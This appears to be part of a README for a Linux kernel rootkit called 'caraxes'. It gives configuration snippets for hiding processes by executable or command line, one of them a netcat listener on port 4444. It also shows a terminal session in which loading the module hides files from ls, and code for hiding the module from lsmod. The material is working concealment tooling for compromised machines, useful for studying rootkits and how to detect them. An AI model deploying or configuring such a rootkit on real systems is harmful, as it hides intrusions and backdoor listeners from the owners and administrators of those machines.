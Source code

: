 
### Advanced Process Hiding Examples

**Hide specific executable:**
```c
char* HIDE_PROCESS_EXE = "/usr/bin/ssh";
char* HIDE_PROCESS_CMDLINE = NULL;  // Disable cmdline matching
```

**Hide by command line arguments:**
```c
char* HIDE_PROCESS_EXE = NULL;  // Disable exe matching
char* HIDE_PROCESS_CMDLINE = "nc -l -p 4444";  // Hide netcat listeners
```

**Hide multiple criteria (OR condition):**
```c
char* HIDE_PROCESS_EXE = "/usr/bin/intelheaders_gnu";
char* HIDE_PROCESS_CMDLINE = "suspicious_args";  // Hide if either matches
```

## Try it out

To test the rootkit, try to run `ls` in the directory - you should see several files as depicted below. Run `sudo insmod caraxes.ko` to load the rootkit into the kernel. Now, run `ls` again - all files that contain the magic word "caraxes" are hidden from the user. To make the files visible, just remove the rootkit from the kernel using `sudo rmmod caraxes`.

```bash
ubuntu@ubuntu:~/caraxes$ ls
LICENSE         README.md   caraxes.mod    caraxes.o         hooks.h             modules.order
Makefile        caraxes.c   caraxes.mod.c  caraxes_logo.svg  hooks_filldir.h     rootkit.h
Module.symvers  caraxes.ko  caraxes.mod.o  ftrace_helper.h   hooks_getdents64.h  stdlib.h
ubuntu@ubuntu:~/caraxes$ sudo insmod caraxes.ko
ubuntu@ubuntu:~/caraxes$ ls
LICENSE   Module.symvers  ftrace_helper.h  hooks_filldir.h     modules.order  stdlib.h
Makefile  README.md       hooks.h          hooks_getdents64.h  rootkit.h
ubuntu@ubuntu:~/caraxes$ sudo rmmod caraxes
ubuntu@ubuntu:~/caraxes$ ls
LICENSE         README.md   caraxes.mod    caraxes.o         hooks.h             modules.order
Makefile        caraxes.c   caraxes.mod.c  caraxes_logo.svg  hooks_filldir.h     rootkit.h
Module.symvers  caraxes.ko  caraxes.mod.o  ftrace_helper.h   hooks_getdents64.h  stdlib.h
ubuntu@ubuntu:~/caraxes$ make clean
```

## Advanced Configuration

### Module Hiding
Uncomment the `hide_module()` call in `caraxes.c` to hide the module from `lsmod`:

```c
static int rk_init(void) {
    int err;
    
    err = fh_install_hooks(syscall_hooks, ARRAY_SIZE(syscall_hooks));
    if (err){
        return err;
    }

    hide_module();  // Uncomment this line

    return 0;
}
```
